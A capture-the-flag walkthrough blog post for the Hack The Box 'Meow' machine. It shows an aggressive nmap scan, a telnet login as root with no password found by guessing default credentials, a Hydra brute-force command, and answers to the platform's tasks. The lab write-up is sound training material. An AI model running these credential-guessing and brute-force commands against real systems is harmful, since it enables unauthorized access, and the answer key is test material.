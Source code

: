 ```yaml
---
title: Hackthebox - Meow
date: 2022-04-07 13:39:00 +0530
categories: [Challenges, Hackthebox]
tags:
---
```


Hello Hackers,  

Meow is one of the Hackthebox's machine in the starting point category with the level of Very Easy. This machine introduces us to the Telnet protocol.

### Enumeration: 
Nmap is a network mapper tool used to find open ports. To find open ports, run the below command.

```bash
$ nmap -Pn -A -T4 -vvv -oN scan_output.nmap <IP>
```
Explanation,

`nmap` Initiates nmap tool   
`-Pn` Treat all hosts as online   
`-A` Enable agressive mode (OS Detection + Version Detection + Scripting Scanning + traceroute)  
`-T4` Enable agressive speed  
`-vvv` Verbosity with level 3  
`-oN` Normal Output to  a file "nmap_all"  
`10.129.195.171` Target IP

```bash
$ nmap -Pn -A -T4 -vvv -oN nmap_all 10.129.195.171
# Nmap 7.92 scan initiated Thu Apr  7 14:02:31 2022 as: nmap -Pn -A -T4 -vvv -oN nmap/all-ports 10.129.195.171
Nmap scan report for 10.129.195.171
Host is up, received user-set (0.37s latency).
Scanned at 2022-04-07 14:02:32 IST for 50s
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  7 14:03:22 2022 -- 1 IP address (1 host up) scanned in 51.05 seconds
```

In the above scan result, we can see that TCP port number 23 is open. TCP port 23 is the reserved port for the TELNET protocol.

As per Wikipedia, Telnet is an application protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection.

### Exploitation:

Let's try to connect Telnet on port 23.

```bash
$ telnet 10.129.195.171 23
```
![telnet login](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login.png)

We can see that it's asking for the TELNET login credentials. Since we don't have any login credentials, we can try the following common credentials,  

admin:admin  
administrator:administrator  
root:[no_password]

The first two login credentials were not working. However, username root with no password worked.

![telnet login success](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login-success.png)

We can see the root flag is inside our home directory. To read,

```bash
root@Meow:~# cat flag.txt
```

### Bonus Tip:
If you want to crack the telnet username and password then try Hydra. Hydra is the fastest password cracking tool.

Run below command to crack the telnet username and password.

```bash
$ hydra -L usernames.txt -P rockyou.txt 10.129.195.171 telnet -f -vV
```

Explanation,

`hydra` Initiates Hydra tool  
`-L` List of usernames "usernames.txt"  
`-P` List of passwords "rockyou.txt"  
`10.129.195.171` Target IP  
`telnet` Service that we want to crack password for  
`-f` Exit once found successful login credential  
`-vV` Verbose


### Tasks:
Task 1: What does the acronym VM stand for?  
Answer: virtual machine

Task 2: What tool do we use to interact with the operating system in order to start our VPN connection?   
Answer: terminal

Task 3: What service do we use to form our VPN connection?   
Answer: openvpn

Task 4: What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?   
Answer: tun

Task 5: What tool do we use to test our connection to the target?   
Answer: ping

Task 6: What is the name of the tool we use to scan the target's ports?   
Answer: nmap

Task 7: What service do we identify on port 23/tcp during our scans?   
Answer: telnet

Task 8: What username ultimately works with the remote management login prompt for the target?   
Answer: root

Happy Hacking!

Warm Regards,  
ValluvarSploit